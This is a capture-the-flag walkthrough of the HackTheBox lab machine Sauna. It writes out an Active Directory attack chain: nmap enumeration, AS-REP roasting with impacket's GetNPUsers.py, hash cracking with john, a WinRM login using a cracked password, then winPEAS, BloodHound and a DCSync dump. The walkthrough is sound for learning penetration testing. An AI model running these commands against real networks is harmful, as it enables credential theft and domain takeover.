 ```yaml
---
layout: post
title:  htb-sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
Sauna is a easy machine created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858)

# Enum  
  
###  nmap
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was [Kerberoasting](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)  
I used [impacket](https://github.com/ifconfig-me/impacket)'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
![index](/assets/img/sauna/sauna1.png)  
  
Searching something usefull I found usernames on page "About Us"  
![users](/assets/img/sauna/sauna2.png)  
  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py  
  
  
### Exploit
./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash  

![fsmithHash](/assets/img/sauna/sauna3.png)  

With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  
  
![passwd](/assets/img/sauna/sauna4.png)
  
The part I like most in attacking windows, is the  [evil](https://github.com/Hackplayers/evil-winrm) part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith  
  
![evilLogin](/assets/img/sauna/sauna5.png)  
  
### Priv Esc  
  
To privelige escalation in windows the first thing I use is [winPEAS.bat](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat)  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user  
![svc](/assets/img/sauna/sauna6.png)  
  
Logged in as svc\_loanmgr and invoked the [hound](https://github.com/fox-it/BloodHound.py)  
  
![bloodHound](/assets/img/sauna/sauna7.png)  
  
ziped the json files and sent it to bloodhound  
  
As the hound says, svc\_loanmgr is connected to egotistical-bank with getChangesAll and you should try a DCSYnc atack..  
  
![HoundHelp](/assets/img/sauna/sauna8.png)  
  
Let's get back to impacket  
  
![hashdump](/assets/img/sauna/sauna9.png)  
  
And evil again  

![evilAdmin](/assets/img/sauna/sauna10.png)
